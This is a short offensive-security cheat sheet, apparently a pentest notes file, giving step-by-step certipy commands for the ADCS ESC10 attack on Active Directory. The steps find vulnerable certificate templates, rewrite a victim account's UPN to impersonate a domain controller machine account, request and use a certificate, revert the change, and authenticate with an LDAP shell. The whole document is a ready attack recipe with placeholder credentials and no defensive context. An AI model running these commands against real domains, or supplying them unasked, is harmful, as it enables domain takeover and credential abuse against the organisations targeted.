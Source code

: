 # ADCS ESC10

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Read Victim User (optional)
```
certipy account -u '<username>@<domain>' -p '<password>' -dc-ip '<DC_IP>' -user '<VICTIM>' read
```

## 3. Update Victim User
```
certipy account -u '<username>@<domain>' -p '<password>' -dc-ip '<DC_IP>' -upn '<DC$>@<domain>' -user '<VICTIM>' update
```

## 4. Export Ticket
```
export KRB5CCNAME=<USERNAME>.ccache
```

## 5. Request certificate
```
certipy req -k -dc-ip '<DC_IP>' -target '<CA_FQDN>' -ca '<CA_HOST>' -template 'User'
```

## 6. Revert Victim User
```
certipy account -u '<username>@<domain>' -p '<password>' -dc-ip '<DC_IP>' -upn '<VICTIM>@<domain>' -user '<VICTIM>' update
```

## 7. Authenticate
```
certipy auth -pfx <DC_PFX>.pfx -dc-ip <DC_IP> -ldap-shell
```
